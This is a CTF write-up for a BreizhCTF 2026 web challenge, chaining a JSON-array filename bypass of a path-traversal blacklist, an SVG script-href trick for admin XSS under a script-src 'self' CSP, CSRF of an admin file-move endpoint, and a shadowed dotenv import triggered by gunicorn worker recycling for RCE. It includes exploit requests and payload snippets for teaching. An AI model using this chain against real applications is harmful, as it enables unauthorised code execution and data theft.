

+++
type               = "ctf"
title              = "No thanks I use AI"
description        = "Abusing a JSON array type-confusion to slip a path-traversal filename past the character blacklist, an SVG external-script href to sidestep script-src 'self' for admin XSS, then gunicorn's worker recycle to hijack a dotenv import shadowed in the app root for RCE"
author             = "conflict"
date               = "2026-05-24"
language           = "en"
tags               = ["web", "web-server", "web-client", "XSS", "path traversal", "python"]
event              = "BreizhCTF 2026"
category           = "web"
difficulty         = "medium"
solves             = 5
challenge_author   = ["crazycat256"]
challenge_author_url = ["https://www.crazycat256.fr/"]
rating             = 8
flag               = "BZHCTF{Dyn4m1cly_typ3d_l4ngu4g3s_4r3_g00d_f0r_s1mpl1c1ty_but_b4d_f0r_s3cur1ty!}"
references         = ["https://developer.mozilla.org/en-US/docs/Web/HTTP/Reference/Headers/Content-Security-Policy/script-src", "https://docs.python.org/3/tutorial/modules.html#the-module-search-path"]
+++

# Introduction

*No Thanks, I use AI* was a Web challenge from BreizhCTF 2026 which I've managed to get the first blood on after about 4 hours of working on it. The challenge consisted of only a web app which was a chat with some cool features and a bot made with playwright. It required to use both client-side and server-side vulnerabilities to achieve code execution on the instance and get the flag.


# TLDR

Register a normal account, then hit `/api/upload` with filename as a one-element JSON array (`["/../../static/js/poc.js"]`) so the `any(s in filename ...)` traversal blacklist checks list membership instead of the string, writing controlled JS into `/static/js/` (landing as `poc.js']`). 

Upload a *SVG* so `mimetypes.guess_type` serves it as `image/svg+xml`, then DM the admin bot a `/uploads/poc.svg` link that auto-renders in an iframe; its `<script href="/static/js/poc.js']">` loads same-origin JS, sidestepping `script-src 'self'` for XSS as admin. 

CSRF the admin-only `/api/admin/files/move` to relocate a previously uploaded `dotenv.py` to the app root via `../dotenv.py`, shadowing the real *python-dotenv*, then flood 100 requests to trip gunicorn's `--max-requests 100` worker recycle. The re-import of `from dotenv import load_dotenv` runs the planted module and cats the appuser-readable flag into `/uploads/`.

# Application Overview

## Docker

First, let's focus on the container itself as it's useful to understand how it's created to fully understand the challenge. The `Dockerfile` creates two users, copies files, and creates some directories, nothing unusual.
```
RUN useradd -r -m -s /bin/false appuser && \
    useradd -r -m -s /bin/false botuser

[...]

RUN mkdir -p /app/uploads && \
    chown -R appuser /app && \
    chown -R botuser /bot && \
    chmod +x /entrypoint.sh

EXPOSE 5000

CMD ["/entrypoint.sh"]
```

The interesting part happens in `entrypoint.sh`, let's take a look at it:
```bash
#!/bin/sh
set -e

(
    FLAG_FILE="/flag-$(openssl rand -hex 8).txt"
    mv /flag.txt "$FLAG_FILE"
    chown appuser "$FLAG_FILE"
    chmod 440 "$FLAG_FILE"
    openssl rand -hex 16 > /secret_key.txt
    chmod 444 /secret_key.txt
) || 0

gosu appuser sh -c 'cd /app && gunicorn \
    -k gevent -w 1 \
    -b 0.0.0.0:5000 \
    --max-requests 100 \
    --access-logfile - \
    --error-logfile - \
    app:app' &

gosu botuser sh -c 'cd /bot && python bot.py' &

wait
```

We see that the flag is at the root of the filesystem, with a randomized name and it's only readable by `appuser`, not by `botuser` (the bot). The secret key for the app is also generated and put at the root of the filesystem, and it's readable by everyone.

The app is then started using `gunicorn`, it's important to point out that it's started with the `--max-requests` flag set to `100`, which means that every 100 requests the gunicorn worker will be killed and the python app will be reloaded.

## Web App

The web app is rather lightweight. Let's first take a look at the notable parts from `app.py` before going over the routes.

It initializes the flask app and does some configuration, such as setting the cookies to `SameSite=Strict`. It also adds the admin user to the users dictionary (which serves as a database for accounts in the challenge).
```python
app = App(__name__)
sock = Sock(app)
app.secret_key = secret_key
app.config["MAX_CONTENT_LENGTH"] = 16 * 1024 * 1024
app.config["SESSION_COOKIE_SAMESITE"] = "Strict"

admin_pass = secrets.token_hex(32)
app.users = {
    "admin": {
        "password": generate_password_hash(admin_pass),
        "last_seen": datetime.now(),
    },
}
app.messages = []
app.ws_clients = {}
app.file_permissions = {}
```

It then adds a *CSP* to all requests.
```python
@app.after_request
def add_security_headers(response: Response):
    csp = (
        "default-src 'self'; "
        "script-src 'self'; "
        "style-src 'self' 'unsafe-inline' *; "
        "font-src 'self' *; "
        "img-src 'self' data:; "
        "connect-src 'self';"
        "frame-src *;"
    )
    response.headers["Content-Security-Policy"] = csp

    return response
```

And it also creates a `/ws` endpoint for the websocket which is used for the chat.

There are too many routes in `user_routes.py` to go over each one individually so we are only going to go over the ones that will actually be useful to solve the challenge.

At the top of the file there is a `welcome_worker` function that sends a message to any newly created account as the admin to show off the features of the application. These features are "instant message app", "users search", "image and files sharing" and "links preview".

Two upload routes are defined, `/api/upload` to upload a file and `/uploads/<filename>` to access the file. The `/api/upload` endpoint has some guardrails on the filename to check if it's present and to apply a blacklist on some characters:
```python
if not filename:
    return jsonify({"error": "Invalid filename"}), 400

if any(s in filename for s in ("/", "\\", "..", "~")):
    return jsonify({"error": "Invalid filename"}), 400
```

The file's content is then decoded from base64 and written to the filesystem in the `uploads/` folder like so:
```python
file_content = base64.b64decode(b64_content)

file_path = os.path.abspath(f"uploads/{filename}")
with open(file_path, "wb") as f:
    f.write(file_content)
```

The `/uploads/<filename>` endpoint does two important things:
```python
mimetype = mimetypes.guess_type(filename)[0]
if not mimetype or not mimetype.startswith("image/"):
    mimetype = "application/octet-stream"

response = send_from_directory("uploads", filename, mimetype=mimetype)
response.headers["X-Content-Type-Options"] = "nosniff"
```

We see that only image files will be served with their actual MIME type, other files will be sent with `application/octet-stream`, and the `X-Content-Type-Options` header is set to `nosniff`.

The other routes in this file are classic routes to register and login, send messages and list conversations...

`admin_routes.py` is the last file we need to go over before exploiting the app. All the endpoints in this file are only accessible to the user named `admin`. 

`/api/admin/files/delete` takes a `filename` value and simply removes the file from the `uploads/` folder. The `/api/admin/files/move` endpoint does a little bit more.

```python
def move_file():
    data = request.json or {}
    filename = data.get("filename")
    new_filename = data.get("newFilename")

    if filename not in get_uploads():
        return jsonify({"error": "File not found"}), 404

    if not new_filename:
        return jsonify({"error": "Missing new_filename"}), 400

    src_path = os.path.abspath(f"uploads/{filename}")
    dst_path = os.path.abspath(f"uploads/{new_filename}")

    while os.path.exists(dst_path):
        root, ext = os.path.splitext(dst_path)

        spl = root.rsplit("_", 1)
        if len(spl) == 2 and spl[1].isdigit():
            base = spl[0]
            num = int(spl[1]) + 1
        else:
            base = root
            num = 1
        dst_path = f"{base}_{num}{ext}"

    shutil.move(src_path, dst_path)
```

It takes `filename` and `new_filename` checks if the `filename` file exists, checks if `new_filename` exists and if it does performs some transformations on the `dst_path` variable to avoid overwriting files, which means that if a file named `toto.txt` already exists and we try to rename a file like this, it will be named `toto_1.txt`.

There are 3 JavaScript files for this challenge but they are very lengthy and not really useful for the challenge solve, the only important part is this one:
```javascript
function appendLinkifiedText(container, text) {
    const urlRegex = /(https?:\/\/[^\s]+)/g;
    let lastIndex = 0;
    let match;

    while ((match = urlRegex.exec(text)) !== null) {
        const beforeText = text.substring(lastIndex, match.index);
        if (beforeText) {
            container.appendChild(document.createTextNode(beforeText));
        }

        let url = match[0];
        let suffix = '';

        while (url.length > 0) {
            const lastChar = url[url.length - 1];
            if (")].,;?!".includes(lastChar)) {
                if (lastChar === ')') {
                    const openCount = (url.match(/\(/g) || []).length;
                    const closeCount = (url.match(/\)/g) || []).length;
                    if (openCount >= closeCount) {
                        break;
                    }
                }
                suffix = lastChar + suffix;
                url = url.slice(0, -1);
            } else {
                break;
            }
        }
        
        const anchor = document.createElement('a');
        anchor.href = url;
        anchor.target = '_blank';
        anchor.style.color = 'inherit';
        anchor.style.wordBreak = 'break-all';
        anchor.textContent = url;
        container.appendChild(anchor);

        if (suffix) {
            container.appendChild(document.createTextNode(suffix));
        }

        const previewContainer = document.createElement('div');
        previewContainer.className = 'preview-iframe-container';
        const iframe = document.createElement('iframe');
        iframe.src = url;
        previewContainer.appendChild(iframe);
        container.appendChild(previewContainer);

        lastIndex = urlRegex.lastIndex;
    }

    const remainingText = text.substring(lastIndex);
    if (remainingText) {
        container.appendChild(document.createTextNode(remainingText));
    }
}
```

`appendLinkifiedText` will trigger for any link in a message, do some regexing (probably to avoid unintendeds) and then create an `iframe` element whose `src` attribute is equal to the URL from the message.

## Bot

The bot is very simple, it periodically logs in as the `admin` user, fetches all its unread conversations and reads (clicks) them for 2 seconds before exiting.
```python
try:
    user_items = page.locator(".user-item.unread").all()

    if user_items:
        print(f"[{datetime.now()}] Checking {len(user_items)} unread conversations...")

    for item in user_items:
        try:
            if item.is_visible() and page.url.startswith(BASE_URL + "/"):
                item.click()
                time.sleep(2)
        except Exception as e:
            print(f"Error checking item: {e}")

except Exception as e:
    print(f"Error in check loop: {e}")
    break
```

That's about it for the useful routes, let's jump to the solve.

# Getting XSS on the Admin Bot

Seeing how the challenge is built, our goal is to get RCE, but the first step is to have access to the Admin endpoints. Cookies are set to `HttpOnly` by default in Flask so stealing the admin's cookie is not the way, but there are no CSRF tokens on the website so if we get XSS as the admin, then we will be able to forge requests as him.

## Scalable Vector Graphics, again??

Because of how `/uploads/` is made, we cannot just upload a `.html` file and send a message with a link to it so that it's rendered in the `iframe` and the code inside gets executed. Instead, it's going to do nothing (or be downloaded by the browser).


So we need to find a way to have a file that can execute code and that has a MIME type starting with `image/`
```python
mimetype = mimetypes.guess_type(filename)[0]
if not mimetype or not mimetype.startswith("image/"):
    mimetype = "application/octet-stream"
```

When talking about images that can do unusual stuff, the first thing that comes to mind is *SVG* as this file format is based on XML and it can include JavaScript.

The [SVG wikipedia page](https://en.wikipedia.org/wiki/SVG) says: "SVG can include JavaScript, potentially leading to cross-site scripting."

We could directly insert a `<script>` tag in our *SVG* and upload it, but that wouldn't work because of the *CSP* that is injected on all pages:
```terminal
Content-Security-Policy
default-src 'self'; script-src 'self'; style-src 'self' 'unsafe-inline' *; font-src 'self' *; img-src 'self' data:; connect-src 'self';frame-src *;
```

`script-src 'self';` will prevent any inline script from running, so we need to find a way to work around that *CSP*. The work around is simply using the `<script>` tag with a `href` attribute (*SVG*'s equivalent of `src` for classic HTML) to load the script from an endpoint somewhere in the app.

So we will upload a *SVG* file that looks like this:
```xml
<svg xmlns="http://www.w3.org/2000/svg" width="100" height="100">
<script href="/path/to/js"></script>
</svg>
```

Where `/path/to/js` is the path to our controlled JavaScript file. Since the *CSP*'s `script-src` is set to `self`, we cannot load the JavaScript file from a remote endpoint which means we need to find a way to upload it on the app.

## Content-Type shenanigans

The app gives us an endpoint to upload files, but we cannot just upload a `.js` file and have our *SVG* load it because of the `Content-Type` that is sent by `/uploads/` and the `nosniff` header that prevents the browser from forcefully executing the file.

I have spent quite some time on this step trying to bypass and play around with how the app gets the content type, but I could not make it send a valid content type that would get us execution. Knowing this, I have concluded that uploading a file in the app's `/static/js` folder was the way to go, because Flask will send the right content type for any file loaded from that path.

Our goal is now to upload a `.js` file in `/static/js/` so that we can load it with our *SVG* and we should have XSS.

## Upload Path Traversal

When uploading a file, the destination path is crafted like this:
```python
file_path = os.path.abspath(f"uploads/{filename}")
```

`os.path.abspath` resolves relative paths, which means that if we can send a filename such as `/../../static/js/poc.js` then our file would end up right where we need. The problem is this condition:
```python
if any(s in filename for s in ("/", "\\", "..", "~")):
        return jsonify({"error": "Invalid filename"}), 400
```

This checks for any `..` and `/` in the filename but the way this condition is made is exploitable, since the data is passed as JSON, we can make `filename` an array of one element (the file name we want). 

Because there are no type checks made at all, the condition goes from 'Are any of these characters in the string "/../../static/js/poc.js"' to 'Are any of these characters inside of the array `["/../../static/js/poc.js"]`' and that second condition is false, as the only element of the array is "/../../static/js/poc.js" and that is obviously not in the blacklist.

`uploads/{filename}` will then almost put the filename back to normal, with an additional `']` at the end of the file name because of how python represents arrays as strings, but that's not a problem at all.

```python
r = s.post(CHALLENGE_URL + "api/upload", json={
        "filename": ["/../../static/js/poc.js"],
        "content": FILE_BASE64
    })
```
```terminal
curl http://localhost:5000/static/js/poc.js%27%5D 
alert("woohooo xss");
```

Let's create a `.svg` file to load this script and send a message containing a link to it.
```xml
<svg xmlns="http://www.w3.org/2000/svg" width="100" height="100">
<script href="/static/js/poc.js%27%5D"></script>
</svg>
```



# From admin to RCE

Now that we have XSS on the admin by sending him a message, we also have access to the admin endpoints, allowing us to delete and move files. Let's see how that can help us to get the flag.

## Exhausting Gunicorn

As I have mentioned it earlier, Gunicorn is configured to re-spawn a worker every 100 requests. Gunicorn respawning a worker means the app will be re-launched, the imports will be re-imported and the templates will be re-templated.


This means that if we can drop a `.py` file at the root of the app with the name of one of the libraries that `app.py` imports, we could hijack that import and get code execution when the library is called. This may break some functionalities of the app, but there is one library that is called very soon in `app.py` and which the app doesn't really rely on: `dotenv`.

If we can manage to drop a `dotenv.py` file at the root of the app, then we can exhaust the Gunicorn worker by sending 100 requests and our python file will be imported and thus executed, giving us RCE.

## Mooooooovvveeeeeeeeee


Let's address this guy: you may be thinking (like I was) "why can't we just re-use the path traversal in the upload to do this ?" and you would be right, if only there was a way to make a clean upload with it. The fact that `']` is added at the end of the file name prevents us entirely from doing this, and I could not find a way (although i've tried for more than 30 mins) to have a clean file uploaded to the app.

But that's not really a problem, now that we have access to `/api/admin/files/move` we can upload a file regularly (it will end up in `uploads/`) and then move it to the app root by using the same path traversal vulnerability that we used earlier:
```python
def move_file():
    data = request.json or {}
    filename = data.get("filename")
    new_filename = data.get("newFilename")

    if filename not in get_uploads():
        return jsonify({"error": "File not found"}), 404

    if not new_filename:
        return jsonify({"error": "Missing new_filename"}), 400

    src_path = os.path.abspath(f"uploads/{filename}")
    dst_path = os.path.abspath(f"uploads/{new_filename}")
```

There is no check on the `new_filename`, and the anti-overwrite condition won't be a problem since `dotenv.py` doesn't exist in the app root.

That means we need to upload our malicious python file, and then make the admin execute this JavaScript code:
```javascript
(async () => {
      const oldname = "dotenv.py";
      const newname = "../dotenv.py";

      const res = await fetch('/api/admin/files/move', {
          method: 'POST',
          headers: { 'Content-Type': 'application/json' },
          body: JSON.stringify({ filename: oldname, newFilename: newname })
      });
  })();
```

After we exhaust Gunicorn, our code will be executed. To extract the flag, I have chosen to put it in the `uploads/` folder so that I could easily access it. The `dotenv.py` content is available at the end of this post in `overwrite.py` as well as the full automated solver.

# Conclusion

This was a fun challenge, I always like the client-side/server-side mix, thanks to [crazycat256](https://www.crazycat256.fr/) for making it!